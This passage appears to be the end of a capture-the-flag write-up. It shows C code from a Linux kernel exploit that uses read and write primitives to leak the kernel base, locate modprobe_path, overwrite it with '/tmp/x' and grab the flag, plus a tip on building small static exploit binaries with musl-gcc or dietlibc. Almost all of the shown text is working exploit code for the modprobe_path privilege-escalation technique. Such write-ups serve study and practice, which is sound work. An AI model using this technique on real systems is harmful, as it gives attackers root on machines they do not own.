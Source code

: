 ```c
	}
	read_primitive(buff,gs+0x202d8, 8);

	kbase = *(uint64_t *)buff;
	kbase -= 0x201b580;
	modprobe_path = kbase + 0x208b980;
	printf("Kbase = 0x%llx\n", kbase);
	printf("modprobe_path = 0x%llx\n", modprobe_path);
	
	memset(buff,0,16);
	strcpy(buff,"/tmp/x");
	write_primitive(modprobe_path, buff, 7);

	get_flag();
    close(devfd);

    return 0;
}
```

P.S.:

for compiling `working.exploit.c` and  `poc.c` , you can use musl-gcc or dietlibc, to generate a small static binary.



**nobodyisnobody still drawing mandala with sand..and see them disappear. content.**
